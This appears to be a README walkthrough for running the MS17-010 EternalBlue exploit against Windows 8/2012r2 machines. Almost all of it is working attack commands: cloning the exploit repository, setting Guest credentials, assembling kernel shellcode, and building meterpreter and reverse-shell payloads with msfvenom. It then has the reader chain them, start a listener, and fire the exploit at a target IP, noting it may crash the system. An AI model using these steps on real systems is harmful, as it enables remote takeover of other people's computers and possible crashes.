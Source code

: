 ## Instructions to perform exploit

**Step 1:** `git clone https://github.com/tnkrtaylorsldrspy/MS17-010.git && cd MS17-010/`

**Step 1a:** gedit/vi/nano eternalblue_exploit8.py and change lines 52 and 53 to match the account authentication

example:

`USERNAME='Guest'`

`PASSWORD=''`

**Step 2:** cd shellcode and type `nasm -f bin eternalblue_kshellcode_x64(x86).asm`

**Step 3:** `msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o meterpreter_(IP)_msf.bin EXITFUNC=thread LHOST=(IP) LPORT=(Port)`

**Step 3a:** `msfvenom -p windows/x64/shell/reverse_tcp -f raw -o shell_(IP)_msf.bin EXITFUNC=thread LHOST=(IP) LPORT=(Port)`

**Step 4:** `cat eternalblue_kshellcode_x64(x86) shell_(IP)_msf.bin (OR meterpreter_(IP)_msf.bin) > (payloadname).bin`

**Step 5:** Set up exploit/multi/handler in a new terminal window with matching payload you created above and run it

**Step 6:** `cd MS17-010`

**Step 7:** `python eternalblue_exploit8.py (target IP) (payloadname).bin (GROOM COUNT)`

**-side note-** Groom count will typically function with a "200" for windows 8/2012r2 but *might* crash the system - use at your own risk

**Step 8:** shell/meterpreter should be returned if "Guest" account is active or entered credentials worked.
